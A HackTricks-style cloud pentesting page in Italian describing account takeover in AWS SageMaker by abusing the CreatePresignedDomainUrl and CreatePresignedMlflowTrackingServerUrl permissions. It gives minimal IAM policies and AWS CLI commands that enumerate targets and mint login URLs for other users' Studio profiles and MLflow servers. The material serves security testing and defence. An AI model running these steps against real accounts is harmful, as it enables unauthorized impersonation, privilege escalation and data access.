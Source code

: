 # AWS - SageMaker Unauthorized Access

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Descrizione
Un'entità con il permesso di chiamare `sagemaker:CreatePresignedDomainUrl` su un target Studio `UserProfile` può generare un URL di login che autentica direttamente in SageMaker Studio come quel profilo. Questo concede al browser dell'attaccante una sessione Studio che eredita i permessi del `ExecutionRole` del profilo e l'accesso completo alla home e alle app del profilo su EFS. Non è richiesto `iam:PassRole` né l'accesso alla console.

### Requisiti
- Un SageMaker Studio `Domain` e un `UserProfile` di destinazione al suo interno.
- Il principal attaccante necessita del permesso `sagemaker:CreatePresignedDomainUrl` sul `UserProfile` target (a livello di risorsa) o `*`.

Esempio di policy minimale (limitata a un unico UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Passaggi per l'abuso

1) Enumerate a Studio Domain and UserProfiles you can target
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Generare un URL pre-signed (valido ~5 minuti per impostazione predefinita)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Apri l'URL restituito in un browser per accedere a Studio come utente target. In un terminale Jupyter all'interno di Studio verifica l'identità effettiva:
```bash
aws sts get-caller-identity
```
Note:
- `--landing-uri` può essere omesso. Alcuni valori (es., `app:JupyterLab:/lab`) possono essere rifiutati a seconda della variante/versione di Studio; i valori di default tipicamente reindirizzano alla home dello Studio e poi a Jupyter.
- Le policy dell'organizzazione/restrizioni sugli endpoint VPC possono comunque bloccare l'accesso alla rete; il token minting non richiede l'accesso alla console o `iam:PassRole`.

### Impatto
- Lateral movement e privilege escalation assumendo qualsiasi Studio `UserProfile` il cui ARN sia consentito, ereditandone il `ExecutionRole` e il filesystem/le app.

### Evidenza (da un test controllato)
- Con solo `sagemaker:CreatePresignedDomainUrl` su un `UserProfile` target, il ruolo dell'attaccante ha restituito con successo un `AuthorizedUrl` come:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Una richiesta HTTP diretta risponde con un redirect (HTTP 302) a Studio, confermando che l'URL è valido e attivo fino alla scadenza.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Descrizione
Un'identità con il permesso di chiamare `sagemaker:CreatePresignedMlflowTrackingServerUrl` per un SageMaker MLflow Tracking Server target può generare un URL presigned monouso che autentica direttamente alla managed MLflow UI per quel server. Questo concede lo stesso accesso che avrebbe un utente legittimo al server (visualizzare/creare experiments e runs, e scaricare/caricare artifacts nello S3 artifact store del server) senza accesso alla console o `iam:PassRole`.

### Requisiti
- Un SageMaker MLflow Tracking Server nell'account/regione e il suo nome.
- Il principal attaccante necessita di `sagemaker:CreatePresignedMlflowTrackingServerUrl` sulla risorsa target del MLflow Tracking Server (o `*`).

Esempio di policy minimale (limitato a un Tracking Server):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Passaggi di abuso

1) Elenca gli MLflow Tracking Servers che puoi targettare e scegli un nome
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Generare un URL presigned per l'UI di MLflow (valido per un breve periodo)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Apri l'URL restituito in un browser per accedere alla MLflow UI come utente autenticato per quel Tracking Server.

Note:
- Il Tracking Server deve essere in uno stato pronto (es., `Created/Active`). Se è ancora in fase di `Creating`, la chiamata verrà rifiutata.
- Il presigned URL è monouso e di breve durata; genera uno nuovo quando necessario.

### Impatto
- Accesso diretto alla MLflow UI gestita per il Tracking Server target, consentendo la visualizzazione e la modifica di esperimenti/run e il recupero o l'upload di artifact memorizzati nello S3 artifact store configurato del server, nei limiti dei permessi imposti dalla configurazione del server.

{{#include ../../../../banners/hacktricks-training.md}}
